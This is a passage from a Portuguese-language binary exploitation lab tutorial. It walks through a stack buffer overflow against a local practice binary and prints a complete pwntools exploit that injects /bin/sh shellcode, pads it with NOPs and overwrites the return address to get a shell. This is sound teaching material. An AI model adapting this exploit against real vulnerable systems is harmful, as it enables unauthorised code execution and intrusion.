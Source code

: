 ```
   0x7fffe5648bae:      syscall
   0x7fffe5648bb0:      nop
   0x7fffe5648bb1:      nop
   0x7fffe5648bb2:      nop
(gdb)
```

Repare que são as instruções assembly que vimos quando geramos o código com `pwn
shellcraft -f a sh`. Show! Simbora! \o/

### Exploração do binário local

Com o *script* no estado que está estamos quase com a execução completa do
*exploit*, a única parte chata é que está executando através do GDB, o que é
útil para análises, mas não para realmente executar o binário em estado real.

Para resolver isso basta ajustar novamente o *script* para funcionar sem que a
execução seja pelo GDB. Lembra como fazer isso? Remova a parte do debugging via
GDB e adicione a criação de um processo a partir do binário alvo:

> [!TIP]
> Não irei instruir dessa forma aqui no laboratório, mas tem uma maneira bem
> legal de fazer isso que é utilizando variáveis de linha de comandos
> ([pwnlib.args](https://docs.pwntools.com/en/stable/args.html)]) do `pwntools`.
> Então, se tiver afim de fazer ficar mais legal, recomendo que dê uma olhada
> como funciona e faça dessa maneira. ;)

```python
p = process('./binexp_bof_01')
```

Com isso o *script* completo fica assim:

```python
#!/usr/bin/env python3

from pwn import *

def logging(msg, value):
    return success(': '.join([msg, hex(value)]))

context.arch = 'amd64'
context.os = 'linux'

p = process('./binexp_bof_01')

data = p.recvuntil(b': 0x')
data = p.recvuntil(b'\n')
addr = int(data[:-1], 16)
logging('buffer', addr)

assembly = shellcraft.sh()
shellcode = asm(assembly)
nop = asm(shellcraft.nop())

payload = shellcode
payload += nop * (136 - len(payload))
payload += p64(addr)
p.sendline(payload)

p.interactive()
```
